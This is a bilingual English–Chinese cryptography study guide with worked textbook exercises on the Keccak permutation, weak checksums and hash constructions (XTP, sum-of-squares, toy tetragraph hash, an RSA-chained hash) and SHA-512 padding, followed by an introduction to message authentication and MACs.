\(f\) (Keccak-\(f\)) works on a \(5\times5\) array of 64-bit lanes and consists of 24 rounds. Each round applies five steps in the order \(\theta,\rho,\pi,\chi,\iota\):\(f\)（Keccak-\(f\)）作用于 \(5\times5\) 的 64 位通道阵列，共 24 轮。每一轮按以下顺序应用五个步骤 \(\theta,\rho,\pi,\chi,\iota\)：
- \(\theta\): each lane is XORed with the column parities of its two neighbouring columns (one rotated by 1 bit). It gives the main diffusion.\(\theta\)：每个通道与其两个相邻列的列奇偶校验进行异或（其中一个先循环移位 1 比特）。它提供主要的扩散。
- \(\rho\): every lane is rotated by its own fixed amount (lane \(L[0,0]\) is not rotated).\(\rho\)：每个通道按其各自固定的位数循环移位（通道 \(L[0,0]\) 不移位）。
- \(\pi\): the lanes are permuted: the lane at \((x,y)\) moves to \((y,2x+3y \bmod 5)\).\(\pi\)：通道被置换：位于 \((x,y)\) 的通道移动到 \((y,2x+3y \bmod 5)\)。
- \(\chi\): in each row, \(a[x]\leftarrow a[x]\oplus(\neg a[x+1]\wedge a[x+2])\). It is the only nonlinear step.\(\chi\)：在每一行中，\(a[x]\leftarrow a[x]\oplus(\neg a[x+1]\wedge a[x+2])\)。它是唯一的非线性步骤。
- \(\iota\): a round-specific 64-bit constant is XORed into lane \(L[0,0]\), which breaks the symmetry between rounds.\(\iota\)：把与轮次相关的 64 位常数异或进通道 \(L[0,0]\)，从而打破各轮之间的对称性。
思路：θ 扩散、ρ 和 π 置换、χ 非线性、ι 加轮常数。
E10. (Problem 11.1, Stallings) The transport protocol XTP uses a 32-bit checksum that is the concatenation of two 16-bit functions. XOR is the bit-by-bit exclusive-OR of all 16-bit blocks of the message. RXOR starts with a hash value of zero and, for each block in turn, first rotates the current hash value left by 1 bit and then XORs the block into it.E10.（习题 11.1，Stallings）传输协议 XTP 使用一个 32 位校验和，它由两个 16 位函数拼接而成。XOR 是对消息所有 16 位分组的逐位异或。RXOR 从散列值 0 开始，对每个分组依次执行：先把当前散列值循环左移 1 比特，然后再把该分组异或进去。
a. Will this checksum detect all errors caused by an odd number of error bits? Explain. b. Will this checksum detect all errors caused by an even number of error bits? If not, characterize the error patterns that will cause the checksum to fail. c. Comment on the effectiveness of this function as a hash function for authentication.a. 这种校验和能否检测出所有由奇数个错误比特引起的错误？请解释。b. 这种校验和能否检测出所有由偶数个错误比特引起的错误？如果不能，请刻画会导致校验和失效的错误模式。c. 评价该函数作为认证用散列函数的有效性。
Answer
(a) Yes. Bit \(i\) of the XOR value is the parity of bit \(i\) over all blocks, so the parity of all 16 XOR bits equals the parity of all message bits. An odd number of flipped bits changes the parity of the whole message, hence changes the XOR value in at least one position. The XOR part alone detects every odd-weight error.(a) 能。XOR 值的第 \(i\) 位是所有分组第 \(i\) 位的奇偶校验，因此 XOR 的 16 个比特的奇偶性等于消息所有比特的奇偶性。奇数个比特翻转会改变整条消息的奇偶性，因而至少会在一个位置上改变 XOR 值。仅 XOR 部分就能检测出所有奇数重的错误。
(b) No. Number the blocks \(j=1,\dots,m\) and the bits \(i=0,\dots,15\). A flip of bit \(i\) in block \(j\) changes bit \(i\) of XOR, and, because the block is rotated \(m-j\) more times, changes bit \((i+m-j)\bmod16\) of RXOR. The checksum fails exactly when every bit position (column) of XOR and every position of RXOR (diagonal \(i-j\)) receives an even number of flips. Any two flips are detected (they would need the same column and the same diagonal, i.e. the same bit). The smallest failing patterns have four flips: take two blocks \(j\) and \(j+8\) and flip bits \(i\) and \(i+8 \pmod{16}\) in both. Each column and each diagonal then contains exactly two flips, and both XOR and RXOR are unchanged.(b) 不能。将分组编号为 \(j=1,\dots,m\)，比特编号为 \(i=0,\dots,15\)。分组 \(j\) 中比特 \(i\) 的翻转会改变 XOR 的比特 \(i\)；而且由于该分组还要额外循环移位 \(m-j\) 次，它还会改变 RXOR 的比特 \((i+m-j)\bmod16\)。只有当 XOR 的每个比特位置（列）以及 RXOR 的每个位置（对角线 \(i-j\)）都收到偶数次翻转时，校验和才会失效。任意两次翻转都能被检测出来（它们若要同时落在同一列和同一条对角线上，就必须是同一个比特）。最小的失效模式有四次翻转：取两个分组 \(j\) 和 \(j+8\)，在两者中都翻转比特 \(i\) 和 \(i+8 \pmod{16}\)。此时每一列和每一条对角线都恰好包含两次翻转，因此 XOR 和 RXOR 都没有变化。
(c) It is useless for authentication. The function is linear over GF(2) and has no one-way property. For any message, an attacker can append two forcing blocks and solve linear equations over GF(2) for them, so that both 16-bit values equal any chosen target pair that is consistent (both have the parity of the message bits); so preimages and second preimages are trivial to construct. It is also only 32 bits long, so a birthday search for a collision takes about \(2^{16}\) trials. It is suitable only for catching accidental transmission errors, which is what it is designed for.(c) 它对认证没有用。 该函数在 GF(2) 上是线性的，不具有单向性。对任意消息，攻击者都可以附加两个伪造块，并在 GF(2) 上求解线性方程组，使这两个 16 位值都等于任意所选的一致目标值对（两者都与消息比特的奇偶性相同）；因此构造原像和第二原像都很容易。它也只有 32 位长，所以用生日攻击找到碰撞大约需要 \(2^{16}\) 次尝试。它只适合用来发现偶然的传输错误，而这正是它的设计目的。
思路：XOR 的总奇偶性决定奇数个错一定被发现；偶数个错需要在每列和每条对角线上都成对出现。
E11. (Problem 11.3, Stallings) Messages are sequences of numbers in \(\mathbb{Z}_n\), \(M=(a_1,a_2,\dots,a_t)\) of any length \(t\).E11.（Stallings 习题 11.3）消息是 \(\mathbb{Z}_n\) 中数字组成的序列，\(M=(a_1,a_2,\dots,a_t)\) 可以是任意长度 \(t\)。
a. The hash value is \(h=\left(\sum_{i=1}^{t}a_i\right)\bmod n\) for a predefined \(n\). Does this hash function satisfy any of the requirements for a hash function (variable input, fixed output, efficiency, preimage resistance, second preimage resistance, collision resistance)? Explain. b. Repeat part (a) for \(h=\left(\sum_{i=1}^{t}a_i^2\right)\bmod n\). c. Calculate the hash function of part (b) for \(M=(189,632,900,722,349)\) and \(n=989\).a. 对于预先定义的 \(n\)，哈希值为 \(h=\left(\sum_{i=1}^{t}a_i\right)\bmod n\)。该哈希函数是否满足哈希函数的任一要求（可变长输入、固定长输出、效率、原像抗性、第二原像抗性、碰撞抗性）？请解释。b. 对 \(h=\left(\sum_{i=1}^{t}a_i^2\right)\bmod n\) 重复 (a)。c. 对 \(M=(189,632,900,722,349)\) 和 \(n=989\) 计算 (b) 中的哈希函数。
Answer
(a) It accepts any length \(t\) (variable input), the output is a single element of \(\mathbb{Z}_n\) (fixed output) and it is trivial to compute (efficiency). It fails the three security requirements:(a) 它接受任意长度 \(t\) 的输入（可变长输入），输出是 \(\mathbb{Z}_n\) 中的单个元素（固定长输出），计算也很简单（效率高）。但它不满足三个安全要求：
- Preimage: for a target \(h\) the one-element message \((h)\) has this hash.原像：对于目标 \(h\)，单元素消息 \((h)\) 的哈希值就是它。
- Second preimage: for a given \(M\), swap two elements, or replace \(a_1,a_2\) by \(a_1+1,a_2-1\); the sum is unchanged.第二原像：对于给定的 \(M\)，交换两个元素，或把 \(a_1,a_2\) 替换为 \(a_1+1,a_2-1\)，其和不变。
- Collision: any two permutations of a message collide.碰撞：消息的任意两个排列都会碰撞。
(b) The same three requirements hold and the same three fail. Preimage: the message \((1,1,\dots,1)\) with \(h\) ones has hash \(h\). Second preimage: any permutation of \(M\), or replacing one \(a_i\) by \(n-a_i\) (since \((n-a_i)^2\equiv a_i^2 \pmod n\)), leaves the hash unchanged. Collision: follows from the second preimages.(b) 同样的三个要求成立，同样的三个要求也不满足。原像：含 \(h\) 个 1 的消息 \((1,1,\dots,1)\) 的哈希值为 \(h\)。第二原像：\(M\) 的任意排列，或把某个 \(a_i\) 替换为 \(n-a_i\)（因为 \((n-a_i)^2\equiv a_i^2 \pmod n\)），都不改变哈希值。碰撞：由第二原像可以得出。
(c) Squares modulo 989:(c) 模 989 的平方数：
| \(a_i\) | \(a_i^2\) | \(a_i^2 \bmod 989\) |
|---|---|---|
| 189 | 35721 | 117 |
| 632 | 399424 | 857 |
| 900 | 810000 | 9 |
| 722 | 521284 | 81 |
| 349 | 121801 | 154 |
The sum is \(117+857+9+81+154=1218\), and \(1218 \bmod 989 = 229\), so \(h=229\).和为 \(117+857+9+81+154=1218\)，并且 \(1218 \bmod 989 = 229\)，因此 \(h=229\)。
Neither function is a secure hash function: both are only checksums.两个函数都不是安全的哈希函数：它们都只是校验和。
思路：求和或平方和对顺序不敏感，所以换序、取 \(n-a\) 都能轻易造碰撞。
E12. (Problem 11.9, Stallings) State the value of the padding field and the value of the length field in SHA-512 if the length of the message is (a) 2942 bits, (b) 2943 bits, (c) 2944 bits.E12.（Stallings 习题 11.9）若消息长度分别为 (a) 2942 比特、(b) 2943 比特、(c) 2944 比特，写出 SHA-512 中填充字段的值和长度字段的值。
Answer
SHA-512 appends a 1 bit and then 0 bits so that the length becomes \(\equiv896 \pmod{1024}\) (at least one bit is always added), followed by a 128-bit field with the original length in bits.SHA-512 先附加一个 1 比特，然后附加 0 比特，使长度变为 \(\equiv896 \pmod{1024}\)（至少总会添加一个比特），之后是一个 128 位字段，其中存放原始消息的比特长度。
\(2942 \bmod 1024=894\), \(2943 \bmod 1024=895\), \(2944 \bmod 1024=896\).
| Length \(L\) | Padding bits填充比特 | Padding field填充字段 | Length field (128 bits, hex)长度字段（128 位，十六进制） | Total总计 |
|---|---|---|---|---|
| 2942 | \(896-894=2\) | 10 |
0000…0B7E |
\(2942+2+128=3072\) = 3 blocks |
| 2943 | \(896-895=1\) | 1 |
0000…0B7F |
\(2943+1+128=3072\) = 3 blocks |
| 2944 | \(1024\) (already 896) | 1 followed by 1023 zeros |
0000…0B80 |
\(2944+1024+128=4096\) = 4 blocks |
The length field is the number written in binary on 128 bits: \(2942=\texttt{0xB7E}\), \(2943=\texttt{0xB7F}\), \(2944=\texttt{0xB80}\), with leading zeros. Case (c) shows that padding is added even when the length is already 896 mod 1024, so an extra block is needed.长度字段是原始长度以二进制写成的 128 位数：\(2942=\texttt{0xB7E}\)、\(2943=\texttt{0xB7F}\)、\(2944=\texttt{0xB80}\)，前面补零。情形 (c) 表明，即使长度已经是 896 mod 1024，也仍然要填充，因此需要多加一个块。
思路：补到模 1024 余 896，已经满足时仍然补整整 1024 位。
E13. (Problem 11.12, Stallings) Parts b and c of the problem. The toy tetragraph hash (tth) works on letters. It ignores spaces, punctuation and case, splits the message into blocks of 16 letters (padding the last block with nulls, counted as \(A=0\)) and keeps a running total of four numbers, starting at \((0,0,0,0)\). For each block (letters \(A=0,\dots,Z=25\) written row by row in a \(4\times4\) array):E13.（Stallings 习题 11.12）习题的 b 和 c 部分。玩具式四字母哈希（tth）作用于字母。它忽略空格、标点和大小写，把消息切成每块 16 个字母（最后一块用空字符补齐，并被计为 \(A=0\)），并维护一个四个数的累加和，初值为 \((0,0,0,0)\)。对每一块（字母 \(A=0,\dots,Z=25\) 按行写入一个 \(4\times4\) 数组）：
- Round 1: add each column mod 26 and add the result to the running total mod 26.第 1 轮：每一列按模 26 求和，再把结果加到累加和上（模 26）。
- Round 2: in the same array rotate row 1 left by 1, row 2 left by 2, row 3 left by 3, reverse row 4; add each column mod 26 and add the result to the running total mod 26.第 2 轮：在同一个数组中，第 1 行循环左移 1 位，第 2 行左移 2 位，第 3 行左移 3 位，第 4 行反转；然后每一列按模 26 求和，并把结果加到累加和上（模 26）。
After the last block the total is converted to letters (for ABCDEFGHIJKLMNOP the hash is FHJL).处理完最后一块后，把累加和转换为字母（对于 ABCDEFGHIJKLMNOP，哈希值为 FHJL）。
b. Calculate the hash of the 22-letter message "Practice makes us perfect." c. To demonstrate the weakness of tth, find a message of 32 letters that produces the same hash.b. 计算 22 个字母的消息 "Practice makes us perfect." 的哈希值。c. 为了说明 tth 的弱点，找一条 32 个字母的消息，使其哈希值相同。
Answer
(b) The letters are PRACTICEMAKESUSP (block 1) and ERFECT plus ten nulls (block 2).(b) 字母序列为 PRACTICEMAKESUSP（第 1 块）以及 ERFECT 加上十个空字符（第 2 块）。
Block 1 as numbers: rows \((15,17,0,2)\), \((19,8,2,4)\), \((12,0,10,4)\), \((18,20,18,15)\). Round 1 column sums mod 26: \((12,19,4,25)\); total \((12,19,4,25)\). Round 2 rows: \((17,0,2,15)\), \((2,4,19,8)\), \((4,12,0,10)\), \((15,18,20,18)\); column sums \((12,8,15,25)\); total \((24,27,19,50)\equiv(24,1,19,24)\).第 1 块写成数字：第 1 至第 4 行分别为 \((15,17,0,2)\)、\((19,8,2,4)\)、\((12,0,10,4)\)、\((18,20,18,15)\)。第 1 轮各列按模 26 的和为 \((12,19,4,25)\)；累加和为 \((12,19,4,25)\)。第 2 轮各行为 \((17,0,2,15)\)、\((2,4,19,8)\)、\((4,12,0,10)\)、\((15,18,20,18)\)；各列和为 \((12,8,15,25)\)；累加和为 \((24,27,19,50)\equiv(24,1,19,24)\)。
Block 2: rows \((4,17,5,4)\), \((2,19,0,0)\), \((0,0,0,0)\), \((0,0,0,0)\). Round 1 column sums: \((6,36,5,4)\equiv(6,10,5,4)\); total \((30,11,24,28)\equiv(4,11,24,2)\). Round 2 rows: \((17,5,4,4)\), \((0,0,2,19)\), zeros, zeros; column sums \((17,5,6,23)\); total \((21,16,30,25)\equiv(21,16,4,25)\).第 2 块：各行为 \((4,17,5,4)\)、\((2,19,0,0)\)、\((0,0,0,0)\)、\((0,0,0,0)\)。第 1 轮各列和为 \((6,36,5,4)\equiv(6,10,5,4)\)；累加和为 \((30,11,24,28)\equiv(4,11,24,2)\)。第 2 轮各行为 \((17,5,4,4)\)、\((0,0,2,19)\)、全零、全零；各列和为 \((17,5,6,23)\)；累加和为 \((21,16,30,25)\equiv(21,16,4,25)\)。
Converting: \(21=V\), \(16=Q\), \(4=E\), \(25=Z\). The hash is VQEZ.换算成字母：\(21=V\)、\(16=Q\)、\(4=E\)、\(25=Z\)。哈希值为 VQEZ。
(c) The contribution of a block to the running total depends only on its column sums in the two rounds, so many blocks give the same contribution. Block 2 contributes \((6+17,\,10+5,\,5+6,\,4+23)\equiv(23,15,11,1)\). Keep block 1 and replace block 2 by a block of nulls with three letters: W (value 22) in row 2 column 3, B (1) in row 3 column 4 and P (15) in row 4 column 2. Round 1 sums: \((0,15,22,1)\). Round 2: W moves to column 1, B to column 1 and P to column 3, giving sums \((23,0,15,0)\). Total contribution \((23,15,37,1)\equiv(23,15,11,1)\), the same as before.(c) 一个块对累加和的贡献只取决于它在两轮中的列和，因此许多块给出相同的贡献。第 2 块的贡献为 \((6+17,\,10+5,\,5+6,\,4+23)\equiv(23,15,11,1)\)。保留第 1 块，把第 2 块替换为一个由三个字母组成的空字符块：W（值 22）位于第 2 行第 3 列，B（值 1）位于第 3 行第 4 列，P（值 15）位于第 4 行第 2 列。第 1 轮列和为 \((0,15,22,1)\)。第 2 轮中，W 移到第 1 列，B 也移到第 1 列，P 移到第 3 列，列和为 \((23,0,15,0)\)。总贡献为 \((23,15,37,1)\equiv(23,15,11,1)\)，与原来相同。
The message "PRACTICEMAKESUSP" followed by "AAAAAAWAAAABAPAA" (32 letters) therefore also hashes to VQEZ.因此，消息 "PRACTICEMAKESUSP" 后接 "AAAAAAWAAAABAPAA"（32 个字母）的哈希值也是 VQEZ。
The weakness: the compression function is linear and uses only column sums, so a forger can solve for a block that gives any required contribution.弱点在于：压缩函数是线性的，而且只用列和，因此伪造者可以求解出一个块，使其给出任意所需的贡献。
思路：每块只贡献列和，所以很容易凑出另一块给出相同贡献，说明 tth 不抗第二原像。
E14. (Problem 21.4, Stallings & Brown) A one-way hash function is built from RSA with a known key: encrypt the first block, XOR the result with the second block and encrypt again. For a two-block message the hash is \(\mathrm{RSAH}(B_1,B_2)=\mathrm{RSA}(\mathrm{RSA}(B_1)\oplus B_2)\). Given a two-block message \(B_1,B_2\) and an arbitrary block \(C_1\), choose \(C_2\) such that \(\mathrm{RSAH}(C_1,C_2)=\mathrm{RSAH}(B_1,B_2)\). What does this show?E14.（Stallings & Brown 习题 21.4）用一把已知的 RSA 密钥构造单向哈希函数：先加密第一块，把结果与第二块异或，再加密一次。对于两块消息，哈希值为 \(\mathrm{RSAH}(B_1,B_2)=\mathrm{RSA}(\mathrm{RSA}(B_1)\oplus B_2)\)。给定两块消息 \(B_1,B_2\) 和任意块 \(C_1\)，选取 \(C_2\)，使得 \(\mathrm{RSAH}(C_1,C_2)=\mathrm{RSAH}(B_1,B_2)\)。这说明了什么？
Answer
The outer RSA is a permutation, so the two hashes are equal if and only if the values inside it are equal:外层的 RSA 是一个置换，因此两个哈希值相等，当且仅当其内部的值相等：
\[\mathrm{RSA}(C_1)\oplus C_2=\mathrm{RSA}(B_1)\oplus B_2 \quad\Longrightarrow\quad C_2=\mathrm{RSA}(C_1)\oplus\mathrm{RSA}(B_1)\oplus B_2\]
Everything on the right is computable by the attacker, because the RSA key is public (known). Then右边的所有内容攻击者都能计算，因为 RSA 密钥是公开的（已知的）。于是
\[\mathrm{RSAH}(C_1,C_2)=\mathrm{RSA}\big(\mathrm{RSA}(C_1)\oplus C_2\big)=\mathrm{RSA}\big(\mathrm{RSA}(B_1)\oplus B_2\big)=\mathrm{RSAH}(B_1,B_2).\]
(Checked with a toy key \(n=3233\), \(e=17\), \(B_1=100\), \(B_2=200\), \(C_1=555\): both hashes are 258.) For any given message and any first block \(C_1\) the attacker finds a second block with the same hash, so the function is not second preimage (weak collision) resistant. The reason is that the chain can be run in both directions: the only secret-free step is invertible for the attacker, because the last block is XORed in and not processed by a one-way function.（用玩具密钥 \(n=3233\)、\(e=17\)、\(B_1=100\)、\(B_2=200\)、\(C_1=555\) 验证：两个哈希值都是 258。）对于任意给定的消息和任意第一块 \(C_1\)，攻击者都能找到一个第二块使哈希值相同，因此该函数不具备第二原像（弱碰撞）抗性。原因在于这条链可以双向运行：唯一不需要秘密的那一步对攻击者来说是可逆的，因为最后一块是异或进去的，并没有经过单向函数处理。
思路：公钥已知，最后一块可以反解，所以对任意 \(C_1\) 都能凑出 \(C_2\)。
Chapter 12Message Authentication Codes and Authenticated Encryption消息认证码与认证加密Reading: Stallings (Crypto) Ch. 12; Stallings & Brown 21.2–21.3
Message Authentication: Threats and Approaches ★★★消息认证：威胁与方法
Goal. Name the eight attacks on network communication and say which function counters each. Say what each way of using encryption as an authenticator provides.目标。 说出对网络通信的八种攻击，并说明每种攻击由哪个功能来对抗。说明每一种把加密用作认证器的方式提供什么。
Step 1: the eight attacks第 1 步：八种攻击
In words: message authentication = a check that the message comes from the claimed source and has not been altered, in content, order or timing.用文字表述：消息认证 = 检查消息是否来自所称的来源，且其内容、顺序或时序未被篡改。
Attacks 1 and 2 are confidentiality problems. Attacks 3 to 6 are what message authentication addresses. Attacks 7 and 8 need a digital signature.攻击 1 和 2 是保密性问题。攻击 3 至 6 正是消息认证要解决的。攻击 7 和 8 需要数字签名。
| # | Attack攻击 | Meaning含义 | Countered by对抗手段 |
|---|---|---|---|
| 1 | Disclosure泄露 | Contents released to anyone without the key内容被泄露给任何没有密钥的人 | Encryption加密 |
| 2 | Traffic analysis（流量分析） | Traffic pattern discovered (frequency, duration, number and length of messages)发现通信模式（消息的频率、持续时间、数量和长度） | Encryption加密 |
| 3 | Masquerade（伪装） | Messages inserted from a fraudulent source, including false acknowledgments从欺诈来源插入的消息，包括虚假确认 | Message authentication消息认证 |
| 4 | Content modification内容篡改 | Insertion, deletion, transposition or modification of contents插入、删除、置换或修改内容 | Message authentication消息认证 |
| 5 | Sequence modification序列篡改 | Insertion, deletion or reordering of a message sequence消息序列的插入、删除或重排 | Message authentication (sequence numbers)消息认证（序列号） |
| 6 | Timing modification时序篡改 | Delay or replay（重放）of messages or of a whole session消息或整个会话的延迟或重放 | Message authentication (timestamps, sequence numbers)消息认证（时间戳、序列号） |
| 7 | Source repudiation源方抵赖 | Source denies having sent a message源方否认发送过某条消息 | Digital signature数字签名 |
| 8 | Destination repudiation接收方抵赖 | Destination denies having received it接收方否认收到过某条消息 | Digital signature plus a protocol数字签名加协议 |
A digital signature（数字签名）is an authentication technique that also counters repudiation by the source (Chapter 13). Every mechanism has two levels. A low-level function produces the authenticator. A higher-level protocol lets the receiver use it to verify authenticity.数字签名是一种认证技术，它还能防止源端抵赖（第 13 章）。每种机制都分两层：底层函数产生认证符；上层协议让接收方用它来验证真实性。
Three kinds of function can produce an authenticator.认证符可以由三类函数产生。
- Hash function (Section 11.1): maps a message of any length to a fixed-length value. A hash alone proves nothing, because anyone can recompute it. It must be protected, for example by encryption or by mixing in a secret key.哈希函数（第 11.1 节）：把任意长度的消息映射为定长值。单独的哈希不能证明任何东西，因为任何人都可以重新计算它。它必须加以保护，例如加密或混入秘密密钥。
- Message encryption: the ciphertext of the whole message is the authenticator.消息加密：整条消息的密文即为认证符。
- MAC: a function of the message and a secret key that gives a fixed-length value (Section 12.2).MAC：消息和秘密密钥的函数，给出定长值（第 12.2 节）。
Step 2: symmetric encryption as an authenticator第 2 步：把对称加密用作认证器
In words: a ciphertext can authenticate only if the receiver is able to tell a sensible plaintext from garbage.用文字表述：只有接收方能分辨出合理的明文和乱码时，密文才能用于认证。
If only A and B know \(K\), a ciphertext that decrypts to sensible plaintext must come from A. An opponent without \(K\) cannot make targeted changes. The difficulty is the word "sensible". B computes \(Y=D(K,X)\) for whatever \(X\) arrives. If every bit pattern is a legal message, every \(Y\) looks fine and a random \(X\) is accepted.如果只有 A 和 B 知道 \(K\)，那么一个能解密出合理明文的密文必然来自 A。不知道 \(K\) 的对手无法做出有针对性的修改。难点在于“合理”二字。B 会对到达的任何 \(X\) 计算 \(Y=D(K,X)\)。若每一种比特模式都是合法消息，那么每个 \(Y\) 看上去都正常，于是任何随机的 \(X\) 都会被接受。
Only a small subset of patterns may therefore be legal. Example (an everyday example): if one pattern in \(10^6\) is legal, a random ciphertext is accepted with probability \(10^{-6}\), so an opponent needs about \(10^6\) injections. English text has this property. Binary files and digitised images do not, so structure is added.因此，只有一小部分模式可以是合法的。例子（日常生活中的例子）：如果 \(10^6\) 中只有一种模式是合法的，那么一个随机密文被接受的概率为 \(10^{-6}\)，因此对手需要约 \(10^6\) 次注入。英文文本具有这一性质。二进制文件和数字化图像则没有，所以需要加入结构。
- Internal error control: append an error-detecting code \(F(M)\), also called a frame check sequence (FCS), before encrypting: \(E(K,[M\Vert F(M)])\). B decrypts, recomputes \(F\) and compares. The opponent would have difficulty producing a ciphertext that decrypts to a valid FCS.内部差错控制：在加密之前附加一个差错检测码 \(F(M)\)，也称帧校验序列（FCS）：\(E(K,[M\Vert F(M)])\)。B 解密后重新计算 \(F\) 并进行比较。对手很难构造出一个解密后得到有效 FCS 的密文。
- External error control: \(E(K,M)\Vert F(E(K,M))\). This gives no authentication. Anyone can compute \(F\) of a random ciphertext, so the forgery passes the check and decrypts to garbage.外部差错控制：\(E(K,M)\Vert F(E(K,M))\)。这种方式不提供认证。任何人都能计算一个随机密文的 \(F\)，因此伪造的密文能通过检查，解密出来却是乱码。
Any other redundancy also helps. A TCP header, checksum and sequence numbers inside the encryption stop segments from being reordered or deleted unnoticed.任何其他冗余同样有帮助。加密内部的 TCP 包头、校验和与序列号，可以防止报文段被无声地重排或丢弃。
Step 3: public-key encryption as an authenticator第 3 步：把公钥加密用作认证器
In words: encrypting with the receiver's public key hides the message; encrypting with your own private key proves who sent it.用文字表述：用接收方的公钥加密可以隐藏消息；用自己的私钥加密则证明是谁发送的。
Anyone can encrypt with \(PU_b\) (B's public key) and claim to be A, so this gives confidentiality only. Encrypting with \(PR_a\) (A's private key) gives authentication and a signature, again with recognisable plaintext. It gives no confidentiality, because anyone has \(PU_a\).任何人都可以用 \(PU_b\)（B 的公钥）加密并冒充 A，所以这只提供保密性。用 \(PR_a\)（A 的私钥）加密则提供认证和签名，同样要求明文可识别。它不提供保密性，因为任何人都拥有 \(PU_a\)。
| Scheme方案 | A sendsA 发送 | Provides提供 |
|---|---|---|
| Encrypt with \(PU_b\) | \(E(PU_b,M)\) | Confidentiality only仅机密性 |
| Encrypt with \(PR_a\) | \(E(PR_a,M)\) | Authentication and signature; no confidentiality, as anyone has \(PU_a\)认证与签名；无机密性，因为任何人都拥有 \(PU_a\) |
| Both两者兼用 | \(E(PU_b,E(PR_a,M))\) | Confidentiality, authentication and signature; the public-key algorithm runs four times per exchange instead of two机密性、认证与签名；每次交换中公钥算法运行四次而非两次 |
Practice练习
Q1. (Calculation) A block cipher with 64-bit blocks encrypts 48 data bits followed by a 16-bit FCS that is a function of the data (internal error control). An opponent without \(K\) injects random 64-bit ciphertexts. (a) What is the probability that one is accepted? (b) How many injections are needed on average? (c) What changes if the FCS is computed over the ciphertext and sent outside the encryption?Q1.（计算）某分组密码的分组长度为 64 位，它对 48 位数据加上一个 16 位 FCS 后再进行加密，FCS 是数据的函数（内部差错控制）。没有 \(K\) 的对手注入随机的 64 位密文。(a) 其中一个被接受的概率是多少？(b) 平均需要注入多少次？(c) 若 FCS 基于密文计算并在加密之外发送，结果有何变化？
Answer
(a) A random ciphertext decrypts to a random 64-bit string. It is accepted only if its last 16 bits equal \(F\) of its first 48 bits, so \(p=2^{-16}=1/65{,}536\approx1.5\times10^{-5}\). (b) Trials until the first success are geometric, so the mean is \(1/p=65{,}536\) injections. (c) With external error control the opponent chooses any ciphertext \(X\) and appends \(F(X)\), which needs no key; the check passes with probability 1. The decryption is meaningless, but nothing authenticated it, so the FCS gives error detection only.(a) 随机密文解密为一个随机的 64 位串。只有当其最后 16 位等于其前 48 位的 \(F\) 时才会被接受，因此概率为 \(p=2^{-16}=1/65{,}536\approx1.5\times10^{-5}\)。(b) 直到第一次成功的试验次数服从几何分布，因此平均需要 \(1/p=65{,}536\) 次注入。(c) 在外部差错控制下，对手可以选取任意密文 \(X\) 并附加 \(F(X)\)，且无需密钥；检验以概率 1 通过。解密结果毫无意义，但没有任何机制对其进行认证，因此 FCS 只能提供差错检测。
易错：FCS 必须在加密之前计算并放进密文里面。
Q2. (True or false) Decide and justify. (a) "If A encrypts \(M\) with B's public key, B can be sure the message came from A." (b) "Sending \(E(PU_b,E(PR_a,M))\) gives confidentiality and a signature at the cost of four public-key operations per exchange."Q2.（判断）判断并说明理由。(a) “若 A 用 B 的公钥加密 \(M\)，则 B 可以确定该消息来自 A。”(b) “发送 \(E(PU_b,E(PR_a,M))\) 可同时提供机密性和签名，但每次交换需要四次公钥运算。”
Answer
(a) False. Anyone can encrypt with the public key \(PU_b\), so the sender is not identified. Only encrypting with \(PR_a\) shows origin, and then the plaintext must be recognisable.(a) 错误。任何人都可以用公钥 \(PU_b\) 加密，因此无法识别发送方。只有用 \(PR_a\) 加密才能证明来源，而此时明文必须是可识别的。
(b) True. A performs two operations (with \(PR_a\), then \(PU_b\)) and B two (with \(PR_b\), then \(PU_a\)). Plain encryption or plain signing needs only two in total. The inner \(PR_a\) layer gives the signature and the outer \(PU_b\) layer gives confidentiality.(b) 正确。A 执行两次运算（先用 \(PR_a\)，再用 \(PU_b\)），B 执行两次（先用 \(PR_b\)，再用 \(PU_a\)）。单纯的加密或单纯的签名总共只需两次。内层的 \(PR_a\) 层提供签名，外层的 \(PU_b\) 层提供机密性。
MAC: Definition, Requirements and Security ★★★MAC：定义、要求与安全性
Goal. Define a MAC and state what it provides. Compare it with a hash code and a digital signature. Compute brute-force effort and the number of known pairs needed.目标。 定义 MAC，并说明它提供什么。将它与哈希码和数字签名作比较。计算暴力攻击的代价以及所需的已知对数。
Step 1: definition and operation第 1 步：定义与运算
In words: MAC = a checksum that only the holders of the secret key can compute.用文字表述：MAC = 只有密钥持有者才能计算的校验和。
A message authentication code (MAC, also called cryptographic checksum) is computed as \(T=\mathrm{MAC}(K,M)\). Here \(M\) is a variable-length message, \(K\) is a secret key shared only by sender and receiver, and \(T\) is the fixed-length tag. The sender appends \(T\). The receiver recomputes the tag from the received message and compares. A match assures the receiver of three things.消息认证码（MAC），也称密码校验和，按 \(T=\mathrm{MAC}(K,M)\) 计算。这里 \(M\) 是变长消息，\(K\) 是仅由发送方和接收方共享的秘密密钥，\(T\) 是定长的标签。发送方把 \(T\) 附加到消息后。接收方从收到的消息重新计算标签并进行比较。匹配则向接收方保证三件事。
- The message is unaltered: an attacker who changes \(M\) cannot adjust \(T\) without \(K\).消息未被篡改：攻击者改变 \(M\) 时，如果没有 \(K\)，就无法调整 \(T\)。
- The message comes from the alleged sender, the only other holder of \(K\).消息来自所称的发送者，因为 \(K\) 的另一个持有者只有对方。
- The order is correct, if \(M\) contains a sequence number.顺序正确，前提是 \(M\) 中包含序列号。
A MAC need not be reversible. It is many-to-one, and a 5-bit key selects one of \(2^5=32\) mappings.MAC 不需要可逆。它是多对一的，5 比特的密钥只能从 \(2^5=32\) 种映射中选出一种。

